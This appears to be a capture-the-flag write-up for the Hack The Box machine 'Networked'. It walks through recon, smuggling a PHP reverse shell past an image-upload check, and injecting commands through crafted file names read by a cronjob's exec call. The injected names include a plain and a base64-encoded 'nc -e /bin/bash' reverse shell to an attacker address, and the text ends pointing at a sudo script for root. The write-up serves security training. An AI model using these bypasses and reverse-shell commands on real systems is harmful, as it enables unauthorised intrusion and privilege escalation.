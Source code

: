 <center><h1>Networked</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Use a file upload to upload our reverse shell to the system
- Exploit a running cronjob that runs a php file every couple minutes
- Use a file that can be run as root to modify the contents of the <b>/etc/sysconfig/network-scripts/ifcfg-guly</b> to give us a reverse shell as root

First we start with an Nmap scan
```
# nmap -sV -sC -T4 -p- 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-20 11:24 EDT
Nmap scan report for 10.10.10.146
Host is up (0.060s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.49 seconds
```
Only a couple ports open. Lets check out port 80. Navigating to the webp age we don't see much.

<center><img src="/htb/networked/home.png"></center>
<br>
Running a <b>gobuster</b> will give us a few results.
```
# gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/20 11:36:02 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
```
So there are a few directories. If we going to the <b>/uploads.php</b> page we will be greeted with a file upload

<center><img src="/htb/networked/fileupload.png"></center>
<br>
Trying to upload a php reverse shell will get us and <b>invalid image file</b> message. We are going to have to sneak the shell onto the system. To do this we can append <b>GIF89a</b> to the top of the file and all change the extension from <b>.php</b> to <b>.php.jpeg</b>
```
GIF89a                                                                                                 
<?php                                                                                                  
// php-reverse-shell - A Reverse Shell implementation in PHP
```
Upload the file and you should be greeted with a message saying the upload was successful

<center><img src="/htb/networked/successful.png"></center>
<br>
If you navigate to <b>http://10.10.10.146/photos.php</b> then you should see our uploaded file. Now before we trigger the shell we need to set up our <b>nc</b> listener.

<center><img src="/htb/networked/photos.png"></center>
<br>
To trigger the shell navigate to <b>https://10.10.10.146/uploads/<name of file></b>. If done correctly you should see a shell open
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:39074.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:49:42 up 25 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```
If we do a quick <b>whoami</b> it shows that we have a low privileged shell as the user <b>apache</b>. If we navigate to <b>/home/user/guly</b> then we can see the user.txt file but we are unable to read it. There are also a couple of other interesting files in the home directory
```
sh-4.2$ whoami
whoami
apache

sh-4.2$ ls /home/guly
ls /home/guly
check_attack.php
crontab.guly
user.txt
```
Reading the <b>crontab.guly</b> and the <b>check_attack.php</b> file there are a few things we should note. The <b>crontab.guly</b> is telling us that there is a cronjob running every 3 minutes that executes <b>check_attack.php</b>. The <b>check_attack.php</b> file basically reads every file in the <b>/var/www/html/uploads</b> directory and then deletes it.
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
What we can exploit in this code is the <b>exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");</b>. Since it reads every file in the directory as a parameter then we can create a file that has the name of a command and instead of deleting the file it will run the command for us. There are two ways we can name the file. One is using base64 encoding and another is using the <b>$SHELL</b> variable as a reference to <b>/bin/sh</b>

<b>Base64</b>
```
# echo "nc -e /bin/bash 10.10.14.21 10001" | base64
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg==

bash-4.2$ touch test\;base64\ -d\ \<\<\<\ bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg\=\=\ \|\ sh\;
```
<b>$SHELL</b>
```
bash-4.2$ touch test\;nc\ \-e\ \$SHELL\ 10.10.14.21\ 10001\ \|\ sh\;
```
After a few minutes you should see a shell open up. If we run <b>whoami</b> you will see that we are now the user <b>guly</b>
```
# nc -lvnp 10001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10001
Ncat: Listening on 0.0.0.0:10001
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:52116.

whoami
guly
```
From here you can grab the user flag. Now onto root. If you type <b>sudo -l</b>, it turns out we have <b>sudo</b> rights to run the script <b>/usr/local/sbin/changename.sh</b>
```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
Running the script shows that it just asks us for a bunch of input.
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
Now lets take a look at the actual file.
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
Reading the script there is something that stands out. It writes the input that you give to the program to <b>/etc/sysconfig/network-scripts/ifcfg-guly</b>. Doing a quick google search on how this can be exploited reveals *[this.](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)*
